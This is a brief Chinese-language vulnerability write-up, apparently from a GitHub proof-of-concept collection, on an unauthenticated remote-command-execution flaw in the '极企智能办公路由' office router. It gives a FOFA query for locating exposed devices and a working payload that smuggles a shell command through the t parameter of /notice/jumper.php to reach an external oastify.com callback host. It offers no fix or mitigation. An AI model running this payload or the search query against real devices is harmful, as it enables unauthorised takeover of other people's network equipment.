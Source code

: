 # 极企智能办公路由某接口存在RCE漏洞

**漏洞描述**

极企智能办公路由某接口存在RCE漏洞，可未授权获取系统权限。

**fofa搜索语句**

title="极企智能办公路由"

**影响版本**

极企智能办公路由

**漏洞复现**

POC：

```
/notice/jumper.php?t=;ping%20hsd632iilzpswz17zge8pbvh48a0yp.oastify.com
```